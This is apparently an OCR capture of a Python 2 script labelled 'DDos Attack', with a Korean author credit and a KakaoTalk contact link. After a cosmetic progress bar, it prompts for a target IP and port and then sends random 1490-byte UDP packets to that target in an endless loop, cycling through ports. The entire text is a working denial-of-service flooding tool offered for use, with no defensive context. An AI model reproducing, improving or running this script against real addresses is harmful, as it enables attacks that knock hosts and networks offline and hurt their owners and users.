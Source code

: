 import sys
import os
import time
import socket
import random
#Code Time
from datetime import datetime
now = datetime.now()
hour = now.hour
minute = now.minute
day = now.day
month = now.month
year = now.year

##############
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
bytes = random._urandom(1490)
#############

os.system("clear")
os.system("figlet DDos Attack")
print
print "재작자   : 하핫FG"
print "카카오톡 : https://open.kakao.com/me/SF1"
print
ip = raw_input("IP : ")
port = input("port    : ")

os.system("clear")
os.system("figlet Attack Starting")
print "[                    ] 0% "
time.sleep(1)
print "[=====               ] 25%"
time.sleep(1)
print "[==========          ] 50%"
time.sleep(1)
print "[===============     ] 75%"
time.sleep(1)
print "[====================] 100%"
time.sleep(1)
sent = 0
while True:
     sock.sendto(bytes, (ip,port))
     sent = sent + 1
     port = port + 1
     print "Sent %s packet to %s throught port:%s"%(sent,ip,port)
     if port == 65534:
       port = 1

